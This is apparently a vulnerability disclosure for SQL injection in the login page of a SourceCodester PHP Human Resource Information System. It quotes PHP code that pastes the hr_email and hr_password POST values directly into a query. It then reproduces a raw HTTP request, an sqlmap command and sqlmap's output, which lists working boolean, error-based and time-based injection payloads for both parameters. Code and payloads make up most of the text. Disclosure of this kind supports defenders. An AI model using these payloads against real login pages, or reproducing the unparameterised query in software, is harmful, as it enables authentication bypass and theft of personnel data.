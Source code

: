 #### BUG_AUTHOR:LIU WEIYU
## Human Resource Information System - SQL Injection on (initialize/login_process.php hr_email/hr_password parameter) 
### Vendor Homepage:
https://www.sourcecodester.com/php/14714/human-resource-information-using-phpmysqliobject-orientedcomplete-free-sourcecode.html 
### Version:V1.0
### Tested on: PHP, Apache, MySQL
### Affected Page:
initialize/login_process.php 

On this page, hr_email and hr_password parameters are vulnerable to SQL Injection Attack 
### Source Code(initialize/login_process.php):
```
$hr_email = $_POST['hr_email'];
$hr_password   = $_POST['hr_password'];
$hr_type  = $_POST['hr_type'];
$query  = $phdb->query("SELECT * FROM hr_member WHERE hr_email='$hr_email' AND hr_password='$hr_password' AND hr_type='HR Head'");
Proof of vulnerability(Verify using the sqlmap tool):
Requests:
POST /Human%20Resource%20Information%20System%202020/initialize/login_process.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 98
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Origin: http://localhost
Referer: http://localhost/Human%20Resource%20Information%20System%202020/
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

hr_email=1&hr_password=1&hr_type=HR+Head&login_hr=
```
#### -> sqlmap -r 1.txt(above request package) --batch
### Output:
```
---
Parameter: hr_email (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: hr_email=1' OR NOT 4510=4510#&hr_password=1&hr_type=HR Head&login_hr=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: hr_email=1' OR (SELECT 5663 FROM(SELECT COUNT(*),CONCAT(0x716b717071,(SELECT (ELT(5663=5663,1))),0x71786b7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- FySz&hr_password=1&hr_type=HR Head&login_hr=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: hr_email=1' AND (SELECT 9216 FROM (SELECT(SLEEP(5)))UyGW)-- ctYN&hr_password=1&hr_type=HR Head&login_hr=
---
---
Parameter: hr_password (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: hr_email=1&hr_password=1' OR NOT 2899=2899#&hr_type=HR Head&login_hr=

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: hr_email=1&hr_password=1' OR (SELECT 9783 FROM(SELECT COUNT(*),CONCAT(0x716b717071,(SELECT (ELT(9783=9783,1))),0x71786b7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- tukX&hr_type=HR Head&login_hr=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: hr_email=1&hr_password=1' AND (SELECT 3525 FROM (SELECT(SLEEP(5)))QLMt)-- HCvR&hr_type=HR Head&login_hr=
---
```

